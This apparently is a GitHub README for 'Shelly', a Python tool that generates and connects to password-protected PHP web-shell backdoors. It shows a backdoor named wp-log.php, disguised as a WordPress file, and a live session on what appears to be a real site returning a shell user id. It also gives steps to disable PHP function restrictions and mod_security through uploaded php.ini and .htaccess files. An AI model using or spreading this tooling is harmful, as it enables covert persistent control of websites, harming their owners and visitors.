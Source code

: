 
## Shelly | Simple Backdoor Manager with Python (based on weevely)

![Screenshoot](capture/capture-2.png)
<br>
Shelly is a simple tool that is written using Python, which functions to remote a website
<br>
### Instalation :

$ git clone https://github.com/tegal1337/Shelly <br>
$ cd Shelly <br>
$ python3 shell.py <br>

### Requirements :

<pre>
sudo pip install -r requirements.txt
</pre>

### Example :
<pre>

python3 shell.py -g wp-log -p tegal1337
   ______      ____
  / __/ / ___ / / __ __
 _\ \/ _ / -_/ / / // /
/___/_//_\__/_/_/\_, /
                /___/  v.1
--------------------------
Python shell - Tegal1337 |
Generate :
[+] ./backdoor.py -g "nama_shell" -p "password"
Connect Server :
[+] ./backdoor.py -u "url_shell" -p "password"

Backdoor berhasil dibuat dengan nama wp-log.php dan password tegal1337

dalpan@Tegal1337:~/Tools$ python3 shell.py -u "https://www.pamz3d.com/wp-log.php" -p tegal1337
/opt/lampp/htdocs/php-futsal$ id
uid=501(pamz3d) gid=501(pamz3d) groups=501(pamz3d)
</pre>
![Screenshoot](capture/capture.png)
![Screenshoot](capture/capture-3.png)

### Disable Function Bypass :
<ul>
   <li>look for the folder whose permissions 777 (rwx rwx rwx)</li>
   <li>Upload file php.ini </li>
</ul>
<pre>
safe_mode = OFF
disable_functions = NONE
</pre>
<ul>
   <li>And upload file .htaccess</li>
 </ul>
<pre>
<IfModule mod_security.c>
SecFilterEngine Off
SecFilterScanPOST Off
</IfModule>
</pre>


### Artikel :
<ul>
   <li>https://www.tegal-1337.com/2020/01/meremote-sebuah-website-menggunakan.html</li>
</ul>

### Contact :
<ul>
  <li> Email : contact@dalpan.co</li>
  <li> FB : fb.com/dalpan.me
</ul>
